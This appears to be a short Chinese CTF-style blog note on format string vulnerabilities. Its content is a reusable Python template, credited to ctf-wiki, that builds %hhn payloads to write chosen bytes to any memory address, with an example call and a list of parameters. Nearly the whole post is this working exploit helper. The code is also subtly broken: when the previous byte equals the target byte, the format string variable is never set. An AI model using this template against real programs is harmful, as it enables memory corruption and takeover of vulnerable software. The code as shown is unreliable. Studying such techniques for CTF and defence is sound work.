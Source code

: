 ```yaml
---
layout:     post
title:      "格式化字符串漏洞利用"
subtitle:   "覆盖任意地址的通用脚本"
date:       2018-08-10 12:00:00
author:     "Chris"
catalog: true
tags:
    - 笔记
 
---
```


当存在printf（输入内容）的漏洞时，可直接覆盖任意地址内容，这里直接给出模板，源于ctf-wiki

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) &    0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload

payload=fmt_str(6,4,0x0804A028,0x12345678)
```

其中每个参数的含义基本如下

* offset表示输入字符串栈中的偏移
* size表示目的变量的机器字长
* addr表示将要覆盖的地址
* target表示我们要覆盖为的目的变量值